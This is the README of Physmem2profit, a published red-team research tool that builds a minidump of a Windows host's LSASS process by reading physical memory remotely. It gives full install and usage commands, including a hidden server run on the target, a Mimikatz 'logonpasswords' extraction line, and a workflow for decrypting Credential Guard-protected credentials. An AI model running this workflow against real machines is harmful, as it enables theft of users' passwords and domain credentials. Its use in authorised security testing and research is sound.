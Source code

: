 # Physmem2profit

Physmem2profit can be used to create a minidump of a target host's LSASS process by analysing physical memory remotely. The intention of this research is to propose an alternative approach to credential theft and create a modular framework that can be extended to support other drivers that can access physical memory. Physmem2profit generates a minidump (.dmp) of LSASS that can be further analyzed with Mimikatz. The tool does not require Cobalt Strike but should work fine over beacon with a SOCKS proxy.

The idea is illustrated below:

![Overview of Physmem2profit](docs/physmemlayout.png)

The tool has two components:

1. The C# server component, `physmem2profit.exe`, executed on the target host
    * Loads the Winpmem driver and acts as a server, which exposes the physical RAM of the target host through a TCP port
1. The client, `physmem2profit` Python module, executed on the attacking machine
    * When executed with `--mode mount`, connects to the target machine and mounts the physical RAM of the target as a raw file with the help of [FUSE](https://en.wikipedia.org/wiki/Filesystem_in_Userspace)
    * When executed with `--mode dump`, calls various [Rekall](https://github.com/google/rekall) plugins to analyze the memory image and to generate a minidump of the LSASS process.
    * When executed with `--mode all`, performs both of the above actions. Connection with server will be closed when dump is complete.

## Installation Instructions

1. Clone the Physmem2profit Git repository: `git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git`
1. For the server running on the target computer:
    1. Build `physmem2profit/server/Physmem2profit.sln` with Visual Studio
1. For the client running on the attacking machine:
    1. `bash physmem2profit/client/install.sh`

## Usage

1. Run `physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]` on the target as admin.
    * You can download the signed Winpmem driver [here](https://github.com/Velocidex/WinPmem/raw/master/kernel/binaries/winpmem_x64.sys). This driver needs to be present on the target host.
1. Run `source physmem2profit/client/.env/bin/activate` on the attacking machine. This command will activate the virtualenv created by `install.sh`.
1. Run `cd physmem2profit/client` and ```python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]``` on the attacking machine
    * `physmem2profit.exe` needs to be running on the target machine before you run this command.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp` on the attacking machine.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

## Credential Guard

Decrypting credentials protected by Credential Guard requires gaining access to the encryption key that is stored in the Secure World. For testing purposes, Physmem2profit supports retrieving data from the Secure World from VMware Fusion/Workstation snapshots (.vmem files). This allows credentials protected by Credential Guard to be decrypted with the help of Mimikatz.

### Setting up a virtual machine for testing

1. Create a Windows 10 virtual machine with VMware Fusion/Workstation. Join the virtual machine to a domain (Credential Guard [does not protect](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-protection-limits) local accounts)
1. In the Advanced settings, Enable VBS (Virtualization Based Security)
1. Deploy Credential Guard. An easy option is to use the [Device Guard and Credential Guard hardware readiness tool](https://www.microsoft.com/en-us/download/details.aspx?id=53337)
1. Reboot
1. Run `msinfo32` to ensure `Virtualization-based security Services Running` says `Credential Guard`

### Testing

1. Log in to the virtual machine (with a domain account)
1. Take a snapshot
1. Run Physmem2profit against the .vmem file: ```python3 physmem2profit --mode dump --vmem /tmp/Win10-Snapshot1.vmem --label credential-guard-test```
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp`. The minidump contains a special stream that holds the data from the Secure World, allowing Mimikatz to locate the encryption key.
    * The Secure World data is also stored to `output/[label]-[date]-secure-world.raw`.
    * If Rekall has problems parsing the .vmem file, Physmem2profit will recommend you to copy the .vmsn file and rename it to .vmss
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

### Future work

The support for bypassing Credential Guard by exploiting the [S3 Resume firmware vulnerability](https://www.kb.cert.org/vuls/id/976132/), demonstated in our [Disobey talk](https://disobey.fi/2020/profile/lets_get_physical), is coming soon :).

## More Information

[Rethinking Credential Theft](https://labs.f-secure.com/blog/rethinking-credential-theft/) | a blog post explaining why this approach to credential theft was chosen.

Physmem2profit is developed by [@b3arr0](https://twitter.com/b3arr0) and [@TimoHirvonen](https://twitter.com/TimoHirvonen).

Kudos for contributing:
* Janusz Szmigielski for refactoring the code for the first release
* Pawel Kurowski for refactoring the code for the first release
* Grzegorz Rychlik for refactoring the code for the first release
